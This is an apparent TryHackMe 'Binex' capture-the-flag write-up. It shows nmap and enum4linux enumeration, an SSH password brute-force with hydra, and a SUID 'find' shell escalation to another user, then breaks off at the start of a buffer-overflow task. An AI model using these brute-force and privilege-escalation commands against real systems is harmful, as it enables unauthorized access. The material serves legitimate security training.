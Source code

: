 
# Binex
This is a guest post by HiSch with notes from a challenge we did @[tryhackme](https://tryhackme.com) called [Binex](https://tryhackme.com/room/Binex).

## 0. Preparation

The IP Address of the victim machine is put into the /etc/hosts file, so you don't have to bother remembering its ip address:

```sh
~# vi /etc/hosts
xx.xx.xx.xx binex.thm
```

## 1. Task 1: Gain initial access

The first thing - like most of the time is enumeration the machine:

```sh
~# nmap -A binex.thm

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 3f:36:de:da:2f:c3:b7:78:6f:a9:25:d6:41:dd:54:69 (RSA)
|   256 d0:78:23:ee:f3:71:58:ae:e9:57:14:17:bb:e3:6a:ae (ECDSA)
|_  256 4c:de:f1:49:df:21:4f:32:ca:e6:8e:bc:6a:96:53:e5 (EdDSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
```

We can see the SMB / SAMBA port 445 is open. The hint says that the RID range 1000-1003 is of special interest. It also mentions, that the longest username has a weak password - probably for bruteforcing.
enum4linux fortunately has an option for that:

```sh
~# enum4linux -R 1000-1003 binex.thm
(..)
S-1-22-1-1002 Unix User\********* (Local User)
(..)
```

Now that we know the username we can try to bruteforce the password:

```sh
~# hydra -l <username> -P /usr/share/wordlists/rockyou.txt ssh://binex.thm
(..)
[22][ssh] host: binex.thm   login: <username>   password: <password>
(..)
```

You can now log on via ssh with this username/password.

```sh
~# ssh <username>@binex.thm 
```

## 2. Task 2: SUID :: Binary 1

According to the title and the question we have to use a suid file to gain access to the user des.

```sh
~# find / -perm /4000 -exec ls -ldb {} \; 2>/dev/null
(..)
-rwsr-sr-x 1 des des 238080 Nov  5  2017 /usr/bin/find
(..)
```

Apparently the /usr/bin/find is owned by des and has the SUID bit set. So lets search [GTFOBins](https://gtfobins.github.io/gtfobins/find/) for a quick solution:

```sh
~# /usr/bin/find . -exec /bin/sh -p \; -quit
$ whoami
des
$ cat /home/des/flag.txt
Good job on exploiting the SUID file. Never assign +s to any system executable files. Remember, Check gtfobins.

You flag is THM{<FLAG>}

login crdential (In case you need it)
username: des
password: <password>

```

## 3. Task 3: Buffer Overflow :: Binary 2

This is where it gets intreating. There is an executable file with suid bit set in the home directory of des called ~./bof. When you execute bof you are asked to enter a string and this string is echoed back to the stdout. Conveniently the source code is in the same directory (~./bof64.c).

## ...to be continued
